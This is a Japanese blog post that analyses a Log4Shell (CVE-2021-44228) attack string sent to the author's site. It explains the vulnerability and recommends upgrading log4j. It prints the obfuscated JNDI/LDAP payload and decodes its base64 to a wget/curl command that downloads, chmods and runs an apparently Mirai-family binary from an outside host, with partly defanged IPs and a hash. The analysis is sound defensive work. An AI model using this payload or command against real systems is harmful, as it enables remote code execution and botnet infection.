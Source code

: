 # log4shellの攻撃コードを見てみる  

私のブログサイトにlog4shellの攻撃コードが送られてきた。こんなできたばかりの貧相なサイトにも送ってくれる網羅性には感心する。  
なので、ここではその攻撃コードをみんなで見て勉強していきたいと思う。  

## 早速見てみる

まぁ、いきなり見てしまうのが一番なので以下に見てみる。  
```
"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')" "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')"
```
Note: IPとポートの箇所はマスクした。  
で、攻撃コードにはコマンドがbase64で記載されているため、これをデコードしてみよう。  
```
wget hxxp:/158[.]101[.]118[.]236/sshd_pty;
curl -O hxxp:/158[.]101[.]118[.]236/sshd_pty;
chmod 777 sshd_pty;
[.]/sshd_pty
```
Note: URLはマスクを実施。本来はワンライナーになっていたが、見やすいように改行した。  

まぁ、わかりやすい。sshd_ptyというファイルをダウンロードして実行。  
ちなみにこのsshd_ptyはバイナリ形式であり、fileコマンドで見ると以下のようになっていた。  
```
# file sshd_pty
sshd_pty: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, stripped
```
sha256: 3e30a65e6504969c05b1bed32db2a2a592da110a7d2dbda9f064f13be5390d6c

VirusTotalに上げて見ると、32/59の検知。大半はMiraiで検知していた。  
[VirusTotalの結果](https://www.virustotal.com/gui/file/3e30a65e6504969c05b1bed32db2a2a592da110a7d2dbda9f064f13be5390d6c)

この攻撃コードを送ってくれたのと、コード内にある通信先は以下となる。  
* 送信元: 198[.]98[.]61[.]124
* 送信先: 150[.]136[.]111[.]68

最後に攻撃コードの内容がいくつか難読化（というか検知回避レベル）のトリックがなされているため、若干見やすくしたのが以下となる。  
```
"t('${jndi:ldap://150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')" "t('${jndi:ldap://150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')"
```

こうやって見ると、jndi:ldap://〜URL〜であり、明らかにlog4shellを狙っている。  

さて、いきなり攻撃コードを出したが、ここからはlog4shellがなんなのかを説明していく。  

## log4jの脆弱性(通称：log4shell)  

log4shellは、javaで一般的に利用されるlogging用のフレームワークであるlog4jで検出された脆弱性である。  
**CVE番号: CVE-2021-44228**  

脆弱性はRCEにあたり、任意コード実行が可能となる。脆弱性が悪用しているものは、log4jがLDAPとJNDIのリクエストの内容に関して検証が行えてないことを悪用している。  
以下にあるようにWikipediaにも専用のページが作成されている。  
[log4shellに関する記述](https://ja.wikipedia.org/wiki/Log4Shell)

この脆弱性を利用した場合、jndi:ldap://の後ろにつけられたURLからコードを取得して実行することができる。  

## 対策   

この脆弱性は最新版では修正されているため、アップグレードすることを推奨する。  
この脆弱性自体は、2.15で修正されたが、その他の脆弱性も見つかっているため、2.17にアップグレードすることが推奨される。  

## 所感  

正直、驚きのレベルの脆弱性である。このレベルの脆弱性はshellshock以来のように思う。  
（HeartBleedもあったが、これはRCEではないので、同じ系統で考えると、shellshockが思い浮かぶ）  
まして、log4jはjavaで開発をすると、とりあえずこれにしとけ、てレベルのライブラリであり、これでこんな深刻な脆弱性があるとは想像もしてなかった。  
放置しているサーバもあるだろうし、今後もこの脆弱性は利用されていくだろう。  
参考: [ShellShock](https://ja.wikipedia.org/wiki/2014%E5%B9%B4%E3%82%B7%E3%82%A7%E3%83%AB%E3%82%B7%E3%83%A7%E3%83%83%E3%82%AF%E8%84%86%E5%BC%B1%E6%80%A7)

さて、これでこの記事は一旦終了である。  
この後、この攻撃サーバへの通信を停止することを行う。それについては、Azureの環境のため、Azureセキュリティグループで防止する方法を見ていこう。  

では、終了となります。ありがとうございました。  
Note: 今回送りつけられたマルウェアは、githubで置いてあります。(パス付きZIPになってますので、悪しからず)  
